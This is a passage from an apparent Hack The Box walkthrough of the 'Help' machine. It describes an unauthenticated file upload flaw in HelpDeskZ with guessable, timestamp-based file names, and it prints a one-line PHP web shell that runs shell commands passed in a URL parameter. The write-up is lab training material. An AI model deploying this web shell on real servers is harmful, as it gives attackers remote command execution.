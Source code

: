 ![ab9defc0.png](/assets/images/posts/help-htb-walkthrough/ab9defc0.png)
</a>

According to the exploit, HelpDeskZ suffers from an unauthenticated arbitrary file upload vulnerability where the software allows file attachment with ticket submission. The minor problem lies with determining the filename of the uploaded file. However, because the eventual file name depends on the time the file was uploaded, we can make an educated guess of the timestamp by shaving a couple of seconds from the current time.

Let's submit a fake ticket and attach `test.php`, which is nothing more than the following PHP code.

```
<pre>
<?php echo shell_exec($_GET[0]); ?>
</pre>
```

<a class="image-popup">

[1]: https://www.hackthebox.eu/home/machines/profile/170
[2]: https://www.hackthebox.eu/home/users/profile/3079
[3]: https://www.hackthebox.eu/